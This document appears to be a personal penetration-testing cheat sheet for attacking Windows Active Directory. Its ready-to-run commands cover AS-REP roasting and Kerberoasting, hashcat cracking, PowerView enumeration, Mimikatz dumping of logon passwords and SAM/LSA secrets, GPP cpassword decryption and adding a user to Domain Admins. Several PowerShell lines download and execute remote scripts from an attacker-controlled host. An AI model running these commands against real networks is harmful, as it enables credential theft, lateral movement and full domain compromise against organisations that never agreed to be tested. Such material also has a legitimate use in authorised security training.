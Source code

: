 # Methodology

## Enumeration

### Kali Commands

```bash
# AS-REP roast
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force

# Kerberoast
impacket-GetUserSPNs -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER:$PASS
impacket-GetUserSPNs -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER -hashes ':$NTLM'
hashcat hashes.kerberoast /usr/share/wordlists/rockyou.txt --force



# Convert net user output to user list
tr -s ' ' '\n' < users.txt | sed '/^$/d'
```

With valid credentials for a domain user, we can first enumerate the domain remotely with [PowerView.py](https://github.com/aniqfakhrul/powerview.py)

**Note:** This can miss custome attributes compared to running PowerView locally

```bash
# Connect
powerview --dc-ip $IP $DOMAIN/$USER:$PASS@$IP
powerview --dc-ip $IP $DOMAIN/$USER@$IP -H ':$NTLM'

# Identify DC
Get-NetDomain

# Enumerate user objects
Get-NetUser -Select samaccountname
Get-NetUser -Properties samaccountname,description,memberof -TableView
Get-NetUser $USER
Get-NetGroup -Where 'member contains $USER' -Select cn

# Enumerate group objects
Get-NetGroup -Properties cn,member -TableView
Get-NetGroup $GROUP

# Enumerate Computer objects
Get-NetComputer -Properties dnshostname,operatingsystem,operatingsystemversion -TableView

# Check for logged-in users (DOES NOT WORK CURRENTLY, RUN LOCALLY)
# Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access (DOES NOT WORK CURRENTLY, RUN LOCALLY)
# Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN -Properties samaccountname,serviceprincipalname -TableView

# Retrieve the ACL for the specified object (DOES NOT WORK CURRENTLY, RUN LOCALLY)
# Get-ObjectAcl -Identity $OBJECT -Select SecurityIdentifier,ActiveDirectoryRights -TableView
# Get-ObjectAcl -Identity $OBJECT -Where 'ActiveDirectoryRights eq GenericAll' -Select SecurityIdentifier,ActiveDirectoryRights -TableView

# Enumerate domain shares (DOES NOT EXIST CURRENTLY, RUN LOCALLY)
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

### Local Access

Once we have local access, we can run **[BloodHound](0%20Tools/BloodHound.md)**

**PowerView**

```powershell
# Import PowerView
iex(new-object net.webclient).downloadstring("http://$OUR_IP/PowerView.ps1")

# Idenfity DC (check Pdc)
Get-NetDomain

# Enumerate user objects
Get-NetUser | select samaccountname,description,memberof
Get-NetUser $USER

# Enumerate group objects
Get-NetGroup | select cn,member
Get-NetGroup $GROUP | select cn,member
Get-NetGroup -UserName $USER | select cn

# Enumerate Computer objects
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

# Check for logged-in users
Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access
Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Retrieve the ACLs for the specified object
Get-ObjectAcl -Identity $OBJECT | select SecurityIdentifier,ActiveDirectoryRights
ConvertFrom-SID $SID
Get-ObjectAcl -Identity $OBJECT | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"$SID","$SID" | ConvertFrom-SID

# Enumerate domain shares
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

**Manual**

```powershell
# Print users within the current domain
net user /domain

# Check domain user information
net user offsec /domain

# Check password policy
net accounts

# Check domain groups
net group /domain
net group "$GROUP" /domain

# Add and remove "setphanie" from "Management Department"
net group "Domain Admins" mojo /add /domain
net group "Enterprise Admins" mojo /add /domain
```

### Tools

**[Mimikatz](0%20Tools/Local/Mimikatz.md)**

[Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

```bash
# Credentialed Enumeration
.\mimikatz.exe
iex(new-object net.webclient).downloadstring("http://$OUR_IP/Invoke-Mimikatz.ps1")

privilege::debug
token::elevate
log
sekurlsa::logonpasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
token::revert
exit

# DPAPI
vault::list
```

**[gpp-decrypt](0%20Tools/gpp-decrypt.md)**

Decrypts GPP credentials. Typically found in files like `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml`, and `Drives.xml`.

Key things to look for:

- **File Location:** GPP files are usually found in the `SYSVOL` folder on a domain controller, under the path `\\[DOMAIN]\SYSVOL\[DOMAIN]\Policies\`.
- **cpassword Attribute:** Within these XML files, look for the `cpassword` attribute. This attribute holds the encrypted form of the password.
- **XML Structure:** The structure of the XML file can give you a hint. For example, in a `Groups.xml` file, you might see something like:

```xml
<Group ...>
  <Properties ... cpassword="EDUYJgCbgCAmO5E..." ... />
</Group>
```

Decrypt with:

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

**[Rubeus](0%20Tools/Local/Rubeus.md)**

Crack associated hashes in hashcat

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
